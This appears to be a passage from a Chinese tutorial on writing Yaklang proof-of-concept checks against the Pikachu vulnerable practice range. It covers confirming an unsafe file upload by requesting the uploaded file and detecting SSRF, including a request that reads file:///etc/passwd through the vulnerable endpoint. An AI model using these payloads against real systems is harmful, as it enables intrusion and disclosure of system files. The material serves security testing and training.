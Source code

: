 ```
// 这里可以根据上传请求的响应来拿到文件上传的路径
body = rsp.GetBody()
uploadFilePath = ""
if "文件保存的路径为：" in body {
    uploadFilePath = body.Split("文件保存的路径为：")[1].Split("</p>")[0].Trim()
}

// 漏洞不存在
if uploadFilePath == "" {
    return 
}

// 访问上传的文件
rsp, req = poc.HTTPEx(f`GET /vul/unsafeupload/${uploadFilePath} HTTP/1.1
Host: 127.0.0.1:8765
`)~

body = rsp.GetBody()
if codec.Md5(s) in body {
    dump("存在漏洞")
}
```  
  
  
**服务端请求伪造（SSRF）**  
  
此类漏洞首先需要知道的也是有没有回显，根据回显的有无，我们可以通过不同的方式进行判断。  
  
**案例：有回显 通过curl请求 linux**  
  
此案例思路与前文中文件读取差不多，只是访问路径为  
file:///etc/passwd  
```
// 这里以 pikachu 靶场的SSRF为例
url = codec.EscapeQueryUrl(f`file:///etc/passwd`)
rsp, req = poc.HTTPEx(f`GET /vul/ssrf/ssrf_curl.php?url=${url} HTTP/1.1
Host: 127.0.0.1:8765

`)~
body = rsp.GetBody()
if rsp.GetStatusCode() == 200 && len(body) > 0 && "root:x:" in body && "nobody:x:" in body {
    dump("存在漏洞")
}
```  
  
**案例：有回显 php 通过file_get_contents请求 linux**  
  
在此案例中，我们可以考虑使用php的伪协议，使用data协议来安全地读取一段随机字符串，再判断响应中是否存在该字符串  
```
// 这里以 pikachu 靶场的SSRF为例
s = randstr(16)
url = codec.EscapeQueryUrl(f`data://text/plain;base64,`) + codec.EncodeBase64(s)
rsp, req = poc.HTTPEx(f`GET /vul/ssrf/ssrf_fgc.php?file=${url} HTTP/1.1
Host: 172.27.214.38:8765

`)~
body = rsp.GetBody()
if rsp.GetStatusCode() == 200 && len(body) > 0 && s in body {
    dump("存在漏洞")
}
```  
  